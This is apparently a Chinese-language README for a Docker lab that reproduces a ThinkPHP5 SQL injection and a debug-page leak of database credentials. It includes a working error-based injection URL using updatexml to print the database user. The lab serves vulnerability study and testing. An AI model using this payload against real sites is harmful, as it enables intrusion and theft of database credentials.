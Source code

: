 # ThinkPHP5 SQL注入漏洞 && 敏感信息泄露

编译及运行环境：

```
docker-compose build
docker-compose up -d
```

启动后，访问`http://45.32.113.61/index.php?ids[]=1&ids[]=2`，即可看到用户名被显示了出来，说明环境运行成功。

## 漏洞原理

漏洞原理说明：

- https://www.leavesongs.com/PENETRATION/thinkphp5-in-sqlinjection.html
- https://xianzhi.aliyun.com/forum/read/1813.html

不再赘述。

## 漏洞利用

访问`http://your-ip/index.php?ids[0,updatexml(0,concat(0xa,user()),0)]=1`，信息成功被爆出：

![](01.png)

当然，这是一个比较鸡肋的SQL注入漏洞。但通过DEBUG页面，我们找到了数据库的账号、密码：

![](02.png)

这又属于一个敏感信息泄露漏洞。